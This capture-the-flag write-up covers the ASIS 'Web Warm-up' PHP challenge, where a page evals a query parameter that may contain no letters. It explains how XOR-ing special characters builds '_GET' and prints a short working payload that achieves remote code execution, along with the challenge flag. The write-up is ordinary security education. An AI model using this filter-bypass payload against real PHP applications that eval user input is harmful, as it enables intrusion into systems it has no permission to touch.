

# Web Warm-up

## Problem

```
Warm up! Can you break all the tasks? I'll pray for you!

read flag.php

Link: Link
```

## Solution

Accessing the webpage gives us the following code:
```php
<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    die();
}

if(isset($_GET['warmup'])){
    if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) && strlen($_GET['warmup']) <= 60) {
    eval($_GET['warmup']);
    }else{
        die("Try harder!");
    }
}else{
    die("No param given");
} 
```

So we need to provide a value for the parameter `warmup` that satisfies the following constraints:
- cannot contain any letters 
- has a length <= 60
- contain a payload that will get us the flag.

Googling `php eval exploit without letters` online, I found this [article](https://www.programmersought.com/article/7881105401/) explaining that we can get letters through XOR-ing strings that contain only special characters. For example, php will interpret 
`"{" ^ "<"` as `G`.

Going further with this we can make the source code evaluate an expression with the restricted parameter, but using another parameter from the query string that is not restricted. We want to achive something along the lines of `eval("_GET['another_parameter']")`.

As you can see from the article, we can write `GET` as `"{{{"^"<>/"`. Using this, we can achive RCE with the next exploit:
```
$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```
Breaking it down, we have:
- `$_="_GET"`: a variable called `_` with the value `_GET`
- `${$_}[_]` (invoking `$_GET[_]` that will take the value from the query parameter called `_`. We will use this to pass a function)
- `(${$_}[__]);` (this will translate into `($_GET[__])`. We will use this as argument for the function we choose to pass)

The request's parameters that will get us the flag:



**Flag**: `ASIS{w4rm_up_y0ur_br4in}`
           

&nbsp;

#### References:
* [XOR character bypassing](https://www.programmersought.com/article/7881105401/)
* https://github.com/saw-your-packet/ctfs/blob/master/ASIS%20CTF%20Quals%202020/Write-ups.md#web-warm-up